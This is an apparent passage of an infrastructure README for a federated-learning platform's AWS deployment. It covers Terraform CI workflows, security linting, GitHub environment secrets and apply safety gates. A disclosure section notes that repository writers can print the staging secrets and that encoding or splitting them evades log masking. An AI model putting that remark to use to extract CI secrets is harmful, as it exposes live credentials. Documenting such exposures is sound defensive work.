Press Ctrl+C to stop all forwards. The Central Hub UI and API are accessed through the edge distribution at the canonical subdomain (e.g. `https://app.flip.aicentre.co.uk`) — no port forwarding needed.

> **Upgrading a trust deployed before the XNAT port split (FLIP#993) — every existing trust must
> act:** `XNAT_PORT` used to mean both the DICOM receiver and the web UI. It now means the DICOM
> receiver only, and the web UI has its own `XNAT_WEB_PORT`. Both are published on the host on
> **every** deployment, not only where a real PACS is configured, so the two must differ. A kit
> file that sets only `XNAT_PORT` resolves them to the same number — `XNAT_WEB_PORT` defaults to
> `XNAT_PORT` — so the next `make up-trust` / `up-trust-ec2` on that kit is **refused** by the
> collision guard, which names both values and the kit file to edit. The refusal is the intended
> upgrade path: deriving the web port from `XNAT_PORT` routes a pre-split kit into a loud
> instruction instead of silently moving its web UI to a number nothing else expects. Add
> `XNAT_WEB_PORT` to that trust's kit file before the next deploy (the shipped dev allocation is
> 8104 DICOM / 8105 web for the first trust, 8106/8107 for the second). The `forward-trust` URL
> above is 8105 by convention, not by enforcement; a trust that chose different numbers forwards
> its own.

## Checkov Security Lint

CI goes red on PRs that regress this tree's security posture (FLIP#1052 + the FLIP#1058 triage): the
`Checkov Security Lint` job in `validate_terraform.yml` runs a curated checkov check list statically over
`deploy/providers/AWS/**` — no credentials, no `terraform init`, no plan. Two families are promoted:

- **IAM policy content** — wildcard `Resource`/`Action` on restrictable data-access actions plus the
  data-exfiltration / privilege-escalation / permissions-management shapes, on both policy syntaxes
  (`data "aws_iam_policy_document"` blocks and `jsonencode()` policies). Checkov knows which AWS actions
  support no resource-level scoping (`ssmmessages:*`, `ec2:Describe*`, …), so those deliberate
  `resources = ["*"]` statements pass without suppression.
- **Infrastructure posture** (promoted per the FLIP#1058 triage) — IMDSv2-only EC2 instances, registry-module
  version pinning, HSTS on CloudFront response-header policies, the WAF Log4j managed rule, SSM parameter and
  KMS key-policy posture. Every existing instance is either fixed or carries an inline suppression with its
  rationale; classes deliberately *not* promoted are recorded in the script.

```bash
make checkov-lint                          # here or from the repo root; no env file needed
make lint                                  # here: terraform fmt, tflint and checkov together
bash scripts/checkov_lint.sh               # or directly, from this directory
```

Deliberate breadth or posture is acknowledged **in-code with a rationale**, never by weakening the check list
globally — add inside the flagged resource/data block:

```hcl
data "aws_iam_policy_document" "example" {
  # checkov:skip=CKV_AWS_356:<why this breadth is deliberate — e.g. dedicated single-purpose bucket>
  statement {
    ...
  }
}
```

The check list and invocation live in [`scripts/checkov_lint.sh`](scripts/checkov_lint.sh). The script
first asserts checkov still fails the deliberately broad canary fixture
(`scripts/tests/checkov_canary/`) before scanning the real tree, so a broken install or an ineffective
check list fails loudly instead of passing vacuously. The script's own guards — the version-pin
assertion, the unknown-check-ID validation, the mandatory skip rationale and the canary must-fail — are
regression-tested by a black-box harness (`scripts/tests/test_checkov_lint.sh`, `checkov` stubbed on
PATH, no install or network) that CI runs in the same `Deploy script tests` job as the `add_fl_kits.sh`
harness; it also runs standalone with plain `bash`. Known limitation: the IAM checks only catch a
**literal** `"*"` — an interpolated bucket-root grant (`"${aws_s3_bucket.x.arn}/*"` on `s3:GetObject`) still
needs human review.

## TFLint

`terraform validate` checks syntax and schema; tflint catches what it accepts — a variable nothing reads, a
module with no provider version constraint, an AWS argument value the API would reject at apply time. CI runs it
in the `TFLint` job of `validate_terraform.yml`; the configuration is [`.tflint.hcl`](.tflint.hcl) (the bundled
`terraform` ruleset with the recommended preset, plus the pinned AWS ruleset).

```bash
make tflint-lint                           # here or from the repo root; no env file needed
bash scripts/tflint_lint.sh                # or directly, from this directory
```

It needs tflint at the version pinned in [`scripts/tflint_lint.sh`](scripts/tflint_lint.sh) (GitHub release
binaries; Homebrew no longer packages it) and downloads the AWS ruleset plugin on first run (`GITHUB_TOKEN`
lifts the anonymous rate limit). Every directory holding `.tf` files — both roots, `ci/` and each module — is
linted on its own. A deliberate exception is acknowledged in-code with `# tflint-ignore: <rule_name> # <why>` on
the line above the flagged block, never by disabling the rule (any separator other than that second `#`, such as
`-- why`, makes tflint ignore the annotation). Like the checkov lint, the script
first asserts tflint still flags a canary fixture (`scripts/tests/tflint_canary/`), and its guards are
regression-tested by `scripts/tests/test_tflint_lint.sh` (tflint stubbed) in the `Deploy script tests` job.

## Hybrid Deployment: Adding an On-Premises Trust

To connect a local (on-premises) Trust host to the AWS Central Hub, the trust operator provisions their own host
and starts the stack:

```bash
# On the trust host (trust operator) — provision, then start the stack
# (sudo: the provisioned login user is deliberately not in the docker group)
cd deploy/providers/AWS
set -x ANSIBLE_BECOME_PASS (read -s -P 'Sudo password: ')   # fish; bash differs
make provision-local-trust KIT=<CODE> HUB=<stag|prod>
cd ../../.. && sudo -E env HUB=<stag|prod> make -C trust up-trust KIT=<CODE>
```

Nothing opens in this account per trust: FL clients reach the FL server through the networking account's edge NLB
(see [Deploying onto an LZA estate](#deploying-onto-an-lza-estate)), and any source restriction there is the
platform team's. Verify the trust can poll the hub (check trust-api logs for successful task polling).

Full details are in the [on-prem playbook README](../../../trust/deploy/ansible/README.md).

## Terraform CI: plan on PR, apply on merge

Terraform runs in GitHub Actions as well as from a laptop (FLIP#962). Three
workflows, all authenticating through OIDC — there are no long-lived AWS keys in
GitHub:

| Workflow | Trigger | Role | What it does |
| --- | --- | --- | --- |
| `terraform_plan.yml` | PR touching `deploy/providers/AWS/**` | plan (read-only) | Posts the staging plan as a PR comment, and runs the FL/LZA-ingress advisory (advisory-only — exits 0 on every readable plan, and `continue-on-error` keeps an unreadable one from failing the check) |
| `terraform_apply.yml` | Push to `develop` / `main` | apply | Applies to staging / production |
| `terraform_drift.yml` | Nightly 03:00 UTC | plan (read-only) | Raises one issue per environment when reality has drifted |

The drift workflow runs **twice**, and which environment a run checks is decided
by the ref it was loaded from. GitHub only fires a `schedule` from the default
branch, so the nightly run is a `develop` run and checks staging; it then
dispatches `terraform_drift.yml --ref main`, and that second run checks
production. Two things fall out of doing it that way rather than running both
legs in one matrix: `aws-prod` stays restricted to `main` (see below), and the
production plan compares **main's** HCL against production's state instead of
reporting every unreleased develop change as drift.

`validate_terraform.yml` still runs `fmt`/`validate` with `-backend=false` on every
change; it catches HCL errors without credentials and is the fast gate.

### Where the CI identity comes from

The plan and apply roles, the `AICentre-FLIPTerraformBoundary` permissions
boundary and the Terraform state bucket are declared by
[`modules/terraform_ci_bootstrap`](modules/terraform_ci_bootstrap/README.md). This
root never manages them — the pipeline must not set its own ceiling, and an apply
that broke its own roles would lock CI out of the apply that fixes them.

The module lives in this public repository, rather than in a platform repository,
so that what FLIP's CI may do is public knowledge: anyone deploying FLIP can read
exactly which AWS services, roles and data its plan and apply roles reach, and
instantiate the same least-privilege set in their own account.

- **AI Centre's LZA accounts**: the platform repository, `aicentre-lza-iac`,
  instantiates the module per account, pinned to a FLIP commit SHA, through its
  own reviewed pipeline, with the platform's own permissions boundary
  (`create_permissions_boundary = false`, `AICentre-WorkloadRoleBoundary`). It
  also owns each account's GitHub OIDC provider. A FLIP change to the module
  therefore reaches AWS only when that repository bumps the pinned SHA; a change
  the FLIP root depends on (a new entry in `managed_role_names` or
  `apply_service_prefixes`, say) has to land there first.
- **Your own account**: [`ci/`](ci/README.md) wraps the same module for a laptop
  apply, with local state first and then `make migrate-state` into the bucket it
  created.

### Where the values come from

The Makefile is the only definition of how env values map onto Terraform inputs,
and CI does not duplicate it. Each workflow:

1. composes the hub's env file from GitHub environment secrets and variables
   (`scripts/compose-ci-env.sh`) — `.env.stag` or `.env.prod`, selected by the
   `TF_HUB` variable,
2. writes `~/.ssh/host-aws.pub` from SSM (see below),
3. runs `make print-tf-env >> "$GITHUB_ENV"` to hand the resolved `TF_VAR_*` to
   Terraform.

**The contract this creates: changing an environment value now means changing it
in two places** — the operator's `.env.<hub>` file *and* the matching GitHub
environment. There is no automatic link between them. What catches a slip:

- `compose-ci-env.sh` fails the build naming every missing key, rather than
  letting Terraform plan a destructive diff from an empty string;
- `scripts/tests/test_compose_ci_env.sh` cross-checks the key manifest against
  the Makefile's `export TF_VAR_…` lines *and* against all three workflows, so
  adding a Terraform input without wiring it through fails in the PR;
- `tests/test_ci_env_target.py` runs the compose script for each `HUB` and compares the env file it names, and the profile it exports, against what
  `deploy/env_mode.mk` and the Makefile's account guard derive for the same inputs —
  so the two cannot drift apart silently;
- a value that has merely drifted (not gone missing) shows up as an unexpected
  plan diff — compare against a laptop `make plan HUB=stag` on the same
  commit when a CI plan looks wrong, with the image tags resolved as CI does
  (see "Plan and drift resolve the tags too" below).

### GitHub environments

Two environments hold the inputs. Do **not** reuse the existing `flip`
environment — it carries *test* values for `AES_KEY_BASE64`, `POSTGRES_PASSWORD`
and `SES_VERIFIED_EMAIL` for the unit-test workflows, and feeding those into a
plan or apply would be a genuine incident.

| Environment | Deployment branch policy | Used by |
| --- | --- | --- |
| `aws-stag` | none (PRs must be able to plan) | plan, apply-to-stag, stag drift |
| `aws-prod` | `main` only | apply-to-prod, prod drift |

**`aws-prod` admits `main` and nothing else, and that is load-bearing.** A GitHub
environment's secrets are readable by *any* workflow that declares the environment
and runs on an admitted branch — before it makes a single AWS call, so the OIDC
trust policies do not constrain it. Admitting the default branch, as an earlier
revision of this did so the scheduled drift job could reach the prod plan role,
would have collapsed "merged to `main`" into "merged to `develop`" for the
production secrets. The drift job reaches them by being dispatched onto `main`
instead.

Each holds `TF_PLAN_ROLE_ARN` and `TF_APPLY_ROLE_ARN` (the roles described in
"Where the CI identity comes from" below, read from IAM by
`scripts/setup-github-environments.sh`),
the hub variable `TF_HUB`, and the Terraform inputs. Stored as environment
*secrets*: `ADMIN_USER_PASSWORD`, `AES_KEY_BASE64`, `INTERNAL_SERVICE_KEY`,
`INTERNAL_SERVICE_KEY_HASH`. Everything else is a variable, including
`POSTGRES_DB` / `POSTGRES_USER` — they are configuration rather than credentials
and are rendered in the clear into the public plan comment either way
(`variables.tf` explains the decision). The authoritative lists are
`REQUIRED_KEYS` / `OPTIONAL_KEYS` in `scripts/compose-ci-env.sh`, the LZA lists
included.

**`TF_HUB` is the variable that changes what a run *is***: the `HUB` value
(`stag` | `prod`) that selects the env file, the environment class and the
`AWS_PROFILE` the Makefile's guard expects. It is required: there is no fallback,
so an unset `TF_HUB` fails the run instead of composing some default estate.
Nothing else in a workflow names an account: the account identity is the
`TF_*_ROLE_ARN` values and this one, which is why moving an estate to another AWS
account is a value change rather than a workflow edit. Ordering: "Repointing CI at
the LZA accounts" below.

`AWS_PROFILE` is deliberately *not* stored: it is derived from `TF_HUB` (the
profile the Makefile's account guard demands), so a mis-set variable cannot point
a stag run at the prod account. `tests/test_ci_env_target.py` runs the derivation
against the Makefile's own guard for both hubs.

**Know what this exposes — this is a recorded decision, not an oversight.** The
plan job declares `environment: aws-stag`, because that is the only way a workflow
can read environment secrets, and the plan needs real values to be truthful. It
runs on the pull request's own code. So **anyone with write access to this
repository can read the staging secrets** (`AES_KEY_BASE64`,
`INTERNAL_SERVICE_KEY`, `ADMIN_USER_PASSWORD`) by adding a step that prints them.
GitHub masks registered secrets in logs, but base64 or splitting the string
defeats masking trivially — do not count on it.

It is wider than those secrets, and worth stating exactly. The same job holds a
one-hour `ReadOnlyAccess` session over the whole staging account: the state file,
the Cognito user list, every CloudWatch log group, every ECS task definition and
its environment. It is also narrower than "everything": the KMS-encrypted buckets
(model files, FL participant kits, FL results) stay closed, because
`ReadOnlyAccess` carries no `kms:Decrypt` and the one grant the plan role has is
pinned by a `kms:ViaService` condition to Secrets Manager.

The same reasoning applies to **any** workflow, not only PR plans: a workflow file
merged to a branch an environment admits can name that environment and read its
secrets. That is why `aws-prod` admits `main` alone.

Fork PRs cannot: GitHub withholds both the OIDC token and environment secrets from
them, and the job skips outright on the same-repo guard.

Note the apply routing gives no protection here, because nothing is being applied —
the exposure is in the plan, before any merge.

Weighed and accepted on 2026-09-01: write access to this repository already implies
trust with staging, and the alternative costs a round trip on every infrastructure
PR. Dummy values were considered and rejected — they feed the Secrets Manager
version, the Cognito admin user and the task definitions, so wrong ones add four to
six spurious "must be replaced" lines to every plan, which trains reviewers to skim
the diff and would mask a real change to exactly those resources.

To revisit, gate the plan job on a maintainer-applied label — one line in
`terraform_plan.yml`:

```yaml
    if: >-
      github.event.pull_request.head.repo.full_name == github.repository
      && contains(github.event.pull_request.labels.*.name, 'terraform-plan')
```

### Never publish a plan file as an artifact

`tf-via-pr` defaults `upload-plan` to **true**, and a Terraform plan file is a
zip containing the full `tfstate` — `AES_KEY_BASE64`, `INTERNAL_SERVICE_KEY` and
`ADMIN_USER_PASSWORD` in plaintext. **This repository is public**, so an uploaded
plan is a public download of live credentials.

This happened. The first green CI plan (2026-09-01) left a 357 KB staging plan
artifact on the run, because omitting the input takes the insecure default. It
was deleted about an hour later and the staging secrets it contained were
rotated. Every `tf-via-pr` step now sets `upload-plan: false`, and
`scripts/tests/test_compose_ci_env.sh` fails the build if any step omits it.

`preserve-plan` is a *different* input and stays `true` in both workflows: it
keeps the plan on the runner's disk so the FL gate and the apply step (apply) and
the plan-time advisory (plan) can read it. That never leaves the job.

### Reading a red Terraform CI run

Two of these are not faults, and both now say so in the run's summary rather than
only in the log.

**"Apply held — FL infrastructure would be disturbed."** The plan succeeded and
was deliberately not applied, because it would recreate `fl-server-net-1` /
`fl-api-net-1` or delete EFS (FLIP#770). The step still exits non-zero — a hold
means the apply did not happen, and that must not read as green — but the job
summary names the resources and the remedy. Clear it by enabling deployment mode
on the hub, waiting until `GET /fl/quiesce` reports deployment mode ON with no
BUSY net, then re-running `terraform_apply.yml` via `workflow_dispatch` with
`fl_quiesced: true`. A plain re-run reads the same plan and holds again.

Note this recurs on *every* apply while a piece of out-of-band drift touches the
FL services — staging currently carries `enable_execute_command: true -> false`
on all three — so one quiesced apply clears the backlog rather than each push
needing its own.

**"Production drift is not being checked."** The nightly run fires from the
default branch and dispatches itself with `--ref main` for the production leg.
GitHub resolves `--ref` against the workflow file *on that ref*, so until `main`
carries `terraform_drift.yml` the dispatch returns HTTP 422. That is a known
precondition, not a broken pipeline, so the job warns and passes instead of
failing — a permanently red nightly is how a real dispatch failure comes to be
ignored. It resolves itself at the first `develop` → `main` release.

The step recognises that precondition from an **HTTP 404 alone** when probing for
the file on `main`. Any other outcome — a 401/403, a rate limit, a 5xx, a network
failure — fails the job rather than being read as "absent", because assuming
absence there would skip the production drift run silently and still report
green. Same fail-closed rule as `resolve-image-tags.sh`: one precise signal means
absent, everything else stops the run.

### Recovering an environment's true values

The operator `.env` files drift, and seeding GitHub from a stale one bakes that
drift into every future CI plan. `scripts/reconcile_ci_env.py` rebuilds the
Terraform inputs from what is actually deployed — live state, plus the things
state cannot answer (the running image tags, the FL kit-slot list, the live
secret material):

```bash
python3 scripts/reconcile_ci_env.py --env prod --compare ../../../.env.prod
python3 scripts/reconcile_ci_env.py --env stag --out /tmp/stag-tf-inputs.env
```

`--env` is required; `--profile` and `--bucket` default to the estate's (`prod` /
`flip-terraform-state-lza`, `stag` / `flip-terraform-state-lza-stag`).

Secret values are written to `--out` but never printed; the summary shows a
truncated SHA-256 so two copies can be compared without either being disclosed.
`--compare` reports drift against an existing file without writing anything.

**`--out` emits only the Terraform inputs, not a complete operator env file** —
the trust, XNAT, Orthanc and OMOP settings are not recoverable from AWS. It
refuses to overwrite an existing file for that reason, and its refusal message
counts the keys it would have written rather than quoting a figure that goes
stale in this README.

Run against staging this found a batch of differences from the checked-out
`.env.stag`, including a renamed UI bucket (`flipstag` → `flip-ui-stag`) that
plans as `must be replaced` against a `prevent_destroy` lifecycle rule, a stale
`FLARE_KIT_DATE`, and rotated service keys. Several
were not stale but **absent**, which is worse: the Makefile exports
`DEPLOY_TRUST_EC2`, `JOB_RESOURCE_SPEC_*` and `FL_KIT_SLOT_NAMES` either
unconditionally or behind a `?=` default, so an absent key arrives at Terraform as
`""` or as the Makefile's own default and **does not** fall back to the
`variables.tf` one.

`DEPLOY_TRUST_EC2`, whose Makefile default is *destructive* rather than merely
wrong (`?= true`, i.e. create a cloud trust host), is **required** in
`scripts/compose-ci-env.sh` for that reason. An explicit `false` is a decision; an
absent key is an accident that reads identically to Terraform, and it is not on
`check-fl-plan-impact.sh`'s watch list, so an unattended apply would make the
change silently. Both environments now compose cleanly.

The same trap was then found on **production**: `DEMO_ASSETS_BUCKET_NAME` was
absent from the production env file while prod state carried the Ark+ demo bucket.
`services.tf` gates `module.flip_demo_assets_bucket` on `var.DEMO_ASSETS_BUCKET_NAME != ""`,
so an apply with the key absent plans the bucket's destroy, which `prevent_destroy`
turns into a failed apply. It is `OPTIONAL` in the manifest because empty is
the *correct* value on stag, which hosts no demo — which is exactly why it is
also recovered from state here, so prod cannot be seeded without it.

Do not trust a recovered value you have not seen a plan agree with. The staging
plan caught this tool getting `DEPLOY_TRUST_EC2` wrong: it was derived from the
root `aws_instance.ec2_instance`, which is the SSM bastion and exists in every
environment, so it always read `true` — and staging, which runs no cloud trust,
would have had a `t3.xlarge` trust host created under it. The cloud trust host is
`module.trust_ec2[0].aws_instance.trust_host`, and state keys a module's
resources under a separate `module` field that the root-level lookup never sees.

Planning **staging** from a laptop needs staging's EC2 public key. The two
accounts hold different keypairs, both Terraform resources read the one path
`~/.ssh/host-aws.pub`, and `public_key` is ForceNew — so whichever account your
local file does not match plans a keypair replacement that ripples into the
bastion. CI is unaffected (each workflow writes the file from its own account's
`/flip/ci/host_aws_public_key`). To reproduce that locally without touching your
`~/.ssh`:

```bash
aws ssm get-parameter --name /flip/ci/host_aws_public_key --profile stag \
  --query Parameter.Value --output text > /tmp/stagkey/host-aws.pub
AWS_PROFILE=stag LOCK=false make plan HUB=stag \
  TF_VAR_flip_keypair=/tmp/stagkey/host-aws \
  TF_VAR_ec2_public_key_path=/tmp/stagkey/host-aws.pub
```

### One-time setup

```bash
# 1. Nothing to publish by hand: /flip/ci/host_aws_public_key, the EC2 keypair
#    public key CI writes to ~/.ssh before planning, is declared in
#    parameter_store.tf and created by the main root's own apply. Where the
#    parameter already exists (an account seeded out of band, or a re-apply),
#    `overwrite = true` adopts it on the first apply, rewriting the bytes CI has
#    just read from it — a no-op.

# 2. The CI roles, the boundary and the state bucket come from
#    modules/terraform_ci_bootstrap; the OIDC provider from the account's own
#    baseline IaC. In an account of your own, apply ci/
#    (see ci/README.md); in AI Centre's LZA accounts the platform repository,
#    aicentre-lza-iac, applies it and there is nothing to run here.

# 3. Create and populate the two GitHub environments. Run --dry-run first.
#    Reads the secret-vs-variable split out of terraform_plan.yml, so it cannot
#    disagree with what the workflows dereference. Before writing anything it
#    checks, under the estate's profile, that the env file's state bucket is in that
#    account, that both roles exist there and trust this repository's environment
#    (and, for apply, the hub's branch), and that the boundary exists; the role
#    ARNs it writes are read from IAM.
#    --hub becomes the TF_HUB variable the workflows read: it selects the env
#    file and the profile. Both FLIP environments run on LZA accounts; see
#    "Repointing CI at the LZA accounts" for the full per-account order these
#    commands sit at the end of.
bash scripts/setup-github-environments.sh --hub stag --env-file ../../../.env.stag --dry-run
bash scripts/setup-github-environments.sh --hub stag --env-file ../../../.env.stag
bash scripts/setup-github-environments.sh --hub prod --env-file ../../../.env.prod
```

Requires repo admin. It prints key names only — values go from the local env file
straight to GitHub.

### Repointing CI at the LZA accounts

Two layers move when FLIP's CI is pointed at a different AWS account, and only the
second is a GitHub change:

1. **Per-account AWS bootstrap.** The GitHub OIDC provider, the plan and apply
   roles, the permissions boundary, the state bucket, the ECR pull-through cache
   and the `/flip/ci/host_aws_public_key` parameter are resources *in the target
   account*. The first four are the platform repository's (`aicentre-lza-iac`,
   through `modules/terraform_ci_bootstrap`), the parameter is the main root's.
   Until the roles exist the workflows have an ARN to assume and nothing to
   assume it with — `AssumeRole` fails before Terraform starts.
2. **The GitHub environment's values.** Repointing rewrites `TF_PLAN_ROLE_ARN`,
   `TF_APPLY_ROLE_ARN` and every account-scoped value (bucket
   names, the ECR registry host, the web-edge domain). The environment *names* do
   not change: the branch policy on `aws-prod` is a property of the pipeline, and
   re-creating an environment to rename it would drop every secret it holds.

| | `TF_HUB` | Env file | `ENV_CLASS` | Profile guard |
| --- | --- | --- | --- | --- |
| LZA staging | `stag` | `.env.stag` | `stag` | `stag` |
| LZA production | `prod` | `.env.prod` | `prod` | `prod` |

`ENV_CLASS` is `deploy/env_mode.mk`'s derivation, carried per row of
`compose-ci-env.sh`'s table as well: the workflows pass the class their ref implies
as `EXPECTED_ENV_CLASS` (`main` → `prod`, otherwise `stag`; `stag` in
`terraform_plan.yml`, which only ever plans staging) and the script refuses to
compose when the two disagree. That is what keeps a mis-set `TF_HUB` from quietly
planning the prod estate with staging's shape — the prod RDS then reads
`deletion_protection = false` and `skip_final_snapshot = true` — in an unattended
apply on `main`.

Run these in order **per account**, from a laptop authenticated to that account:

```bash
# 0. The local profile the Makefile's guard expects for this estate: an alias for the
#    workload account's permission set, in ~/.aws/config. An alias carrying the old
#    account ID has to be re-created, not edited in place:
#        [profile stag]  sso_session = <session>  sso_account_id = <lza-stag-account-id>  sso_role_name = FLIPAdminAccess
#        [profile prod]  sso_session = <session>  sso_account_id = <lza-prod-account-id>  sso_role_name = FLIPAdminAccess

# 1. The platform repository applies the OIDC provider, the state bucket and the CI
#    roles: aicentre-lza-iac, one instantiation of modules/terraform_ci_bootstrap per
#    FLIP workload account, pinned to a FLIP commit SHA, with the platform's own
#    permissions boundary (AICentre-WorkloadRoleBoundary, londonaicentre/lza#51)
#    rather than FLIP's. Nothing to run here — but it comes first: the roles are what
#    CI assumes, and the bucket holds the main root's state.

# 2. /flip/ci/host_aws_public_key — the EC2 keypair public key CI reproduces byte
#    for byte — is declared in parameter_store.tf, so the first laptop apply of the
#    main root in this account creates it. CI cannot plan until it exists, so that
#    apply comes before the environment is repointed. The keypair itself must
#    come from THIS account's key: a laptop file that has drifted, or that belongs
#    to the old account, plans a keypair replacement that ripples into the
#    bastion, and the parameter would then publish the wrong key.

# 3. The GitHub environment: verifies the account first (the env file's state
#    bucket is in it; both roles exist and trust aws-stag / aws-prod and the hub's
#    branch; the boundary exists) and stops before any GitHub write if not. Then it
#    creates the environment if absent, sets TF_HUB and the two role ARNs read from
#    IAM, and writes every key the workflows dereference from the env file.
bash scripts/setup-github-environments.sh --hub stag --env-file ../../../.env.stag --dry-run
bash scripts/setup-github-environments.sh --hub stag --env-file ../../../.env.stag
```

Then push a change under `deploy/providers/AWS/**` and read the plan before letting an
apply run:

- `compose-ci-env.sh` composes `.env.stag` and fails naming any missing
  required key — the run stops there rather than planning a destructive
  diff from an empty string. `LZA_WEB_EDGE_DOMAIN` /
  `LZA_WEB_EDGE_DISTRIBUTION_ARN` are optional on purpose: the edge is built from
  this stack's outputs, so they stay empty until it exists.
- The first plan is against an **empty** account, so it creates everything and there
  is no drift to compare against yet. Read it for shape — the network discovered
  rather than created, no `must be replaced` on the buckets — not for a diff.
- `check-fl-plan-impact.sh` still holds any apply that would touch `fl-server-net-1`
  or delete an EFS resource. On an empty account there is nothing to replace, so it
  passes; from the second apply onward it behaves as on any other estate.
- Bucket names are globally unique, so each estate carries its own: LZA staging's are
  `flip-terraform-state-lza-stag` and `flip-lza-stag-*`, production's
  `flip-terraform-state-lza` and `flip-lza-*`. A new estate needs new names in the env
  file *and* on the environment, `FLIP_TFSTATE_BUCKET_NAME` included, or the first
  apply stops on `BucketAlreadyExists`/`AlreadyExists`.

**A repoint is forward-only.** Both legacy accounts are closed (staging 2026-09-28,
production 2026-10-06), so there is no estate to roll back to: recovery is the
break-glass laptop apply against the LZA account.

**Two things the Terraform pipeline does not cover.** `docker_build_xnat_web.yml`
assumes the older, over-broad role `GitHubAction-AssumeRoleWithAction-FLIP`
(trusting `repo:londonaicentre/FLIP:*`, created outside this repository) through
three **repository-level** variables — `AWS_ROLE_TO_ASSUME`,
`AWS_ROLE_SESSION_NAME`, `AWS_REGION` — rather than through an environment. If it
is to keep working in the new account, that role and those three variables have to
follow. It is recorded as a known finding in FLIP#962 and predates this pipeline;
the migration is the opportunity to retire it. The bootstrap's roles are additive
and do not depend on it.

### What an automated apply will not do

Two hazards would make an unattended apply unsafe. Both are handled in the
pipeline rather than left to a runbook.

**It will not un-pin the released image.** `ecs_services.tf` tracks
`max(terraform_revision, live_revision)`, so a *no-op* apply preserves whatever
`make deploy-centralhub` deployed. But an apply that changes a task definition
mints a revision from `var.docker_image_tag` — and the env files set that to the
mutable `:stag` / `:prod`, which would silently discard the immutable
`sha-<short7>` pin from FLIP#751. So `scripts/resolve-image-tags.sh` resolves the
tag instead of reading it: this commit's `sha-<short7>` once published, else the
tag the service is already running, and only on an empty account the configured
tag. The guarantee is about substitution: the configured tag can never replace a
deployed one. An environment genuinely running `:stag` (staging, today) gets
`:stag` back, which is a no-op; what cannot happen is a sha-pinned service being
moved onto a mutable tag.

Every lookup in that script **fails closed**. An expired session, a throttle, an
AccessDenied or a wrong `ECS_CLUSTER` all used to look exactly like "there is no
service here", which is the one answer that reaches the configured-tag fallback —
so an API error on an unattended production apply would have un-pinned the
release. Absence is now recognised only from ECS's own `failures[].reason ==
"MISSING"`, and every other outcome stops the run.

**Plan and drift resolve the tags too**, with `RESOLVE_SHA_TAG=false`: read what
the services are running, never probe the registry. Without that, once the first
CI apply has written a `sha-…` pin every PR plan and every nightly run would
report a permanent `sha-… → :prod` diff on the task definitions — including the FL
ones, which the FL gate would then hold every apply on.

A laptop plan compared against CI's has to resolve them the same way, or it shows that diff. After
`make init HUB=prod`, with `DOCKER_REGISTRY` and `FL_BACKEND` as in `.env.prod`:

```bash
export AWS_PROFILE=prod
GIT_SHA=$(git rev-parse HEAD) RESOLVE_SHA_TAG=false DOCKER_REGISTRY=<registry> FL_BACKEND=<backend> \
  FALLBACK_DOCKER_TAG=prod FALLBACK_DOCKER_FL_TAG=prod scripts/resolve-image-tags.sh > /tmp/flip-live-tags &&
  make plan HUB=prod LOCK=false $(cat /tmp/flip-live-tags)
```

The tags go on the command line because the env file's `DOCKER_TAG` would beat an exported one. Read the plan,
never `make apply` it: the estate is CI-applied ([Break-glass](#break-glass) is the exception).

**An infrastructure-only apply does not wait for images that cannot exist.** The
apply fires on `deploy/providers/AWS/**` while the image builds fire on service
paths, so the commonest apply publishes no `sha-…` image at all. The workflow
diffs the push against its predecessor and spends the `GHCR_WAIT_SECONDS` budget
only when a path that builds one of the two images actually changed.

**It will not disturb a training run.** Replacing `fl-server-net-1` kills any
in-flight run (FLIP#770). A runner cannot ask the hub whether one is in flight —
`GET /fl/quiesce` needs a Cognito session (and prod runs `ENFORCE_MFA=true`),
CloudFront strips `X-Internal-Service-Key` at the edge, and the scheduler state
is in a private subnet. So `scripts/check-fl-plan-impact.sh` asks the plan
instead: if the plan changes `fl-server-net-1` / `fl-api-net-1` (task definition
or service), or deletes any EFS resource, the job **holds** and names what it
found. Everything else — IAM, S3, SSM, and a plain `flip-api` roll — applies
unattended.

**It will warn — but not hold — when the plan touches the LZA FL ingress**
(FLIP#1199). The internal FL NLB (`module.fl_server_internal_nlb`, its static
per-subnet private IPs and its listeners), its security group, the two
internal-NLB ingress rules, and the `/flip/networking/*` SSM handoff parameters
(`aws_ssm_parameter.lza_*`) are the workload half of a cross-repo contract: the
networking account (`aicentre-lza-iac`) reads those parameters and registers those
IPs as targets on the edge NLB's FL listener and the web relay target group.
Change one side alone and FL ingress breaks in a way no plan in this repo can see.
So the gate emits a GitHub **warning annotation plus a job summary** naming the
changed addresses and the required order:

- **Adding or widening** ingress (new IP, new subnet, new listener/port) — apply
  FLIP first, then point the networking account at the new values.
- **Removing or replacing** ingress (dropped IP/subnet, NLB replacement, port
  change) — update the networking account off the old values **first**, or the
  edge targets something that no longer exists.

The exit code is unchanged: ordering is a question for a human, not a correctness
failure, and holding would wedge every LZA ingress PR behind a quiesce that has
nothing to do with the change. Confirm the handoff
afterwards with `aws ssm get-parameters-by-path --path /flip/networking --recursive`.

**The advisory runs before the merge, and on a quiesced re-dispatch.** An advisory
that only appears mid-apply arrives too late for the half of the advice that
matters most: *removing or replacing* ingress is supposed to be sequenced by
updating `aicentre-lza-iac` **first**, and by the time the apply is running that
ordering is no longer available. So the same script runs in an **advisory-only**
mode (`ADVISORY_ONLY=true`, or `--advisory-only`) in two more places:

- **`terraform_plan.yml`, on the pull request.** The PR plan is the last point at
  which the two repositories can be sequenced. The warning annotation lands on the
  PR's checks beside the tf-via-pr plan comment, with the changed addresses and the
  ordering in the job summary. (`preserve-plan: true` is what keeps the plan file on
  the runner for it; `upload-plan` stays `false` — see the warning above.)
- **`terraform_apply.yml`, on an `fl_quiesced=true` re-dispatch.** That input skips
  the gate step, and with it the advisory — precisely on the apply that most needs
  it, since an NLB replacement is both FL-disruptive and ingress-changing. A second
  step runs the script in advisory-only mode on exactly the runs the gate skips.

Advisory-only never holds: it exits 0 on any readable plan, and on an FL-disruptive
diff it says what the apply *will* do rather than doing it. It is not a relaxation
of the input guard — a document that is not a `terraform show -json` plan is still
an error (exit 2), because "no advisory" from an unreadable plan is
indistinguishable from "no ingress change". The hold remains the apply's alone.

When it holds:

1. Enable deployment mode on the hub (pauses FL job pickup; queued jobs hold, the
   running job finishes and frees its net).
2. Wait until `GET /fl/quiesce` reports deployment mode ON and no BUSY net.
3. Re-run `terraform_apply.yml` via `workflow_dispatch` on the same branch **with
   the `fl_quiesced` input set to `true`**.
4. Disable deployment mode.

Step 3's input is what makes the remedy work. The gate reads the plan, and the
plan has not changed between the held run and the re-run — so a plain re-run finds
the same FL change and holds again, indefinitely. `fl_quiesced: true` skips the
gate, and nothing verifies it: the runner cannot reach `GET /fl/quiesce`, so it is
an operator attestation, recorded as a warning annotation naming whoever
dispatched the run. Setting it when FL is *not* quiesced kills the in-flight
training run, which is exactly what the gate exists to prevent. What it does
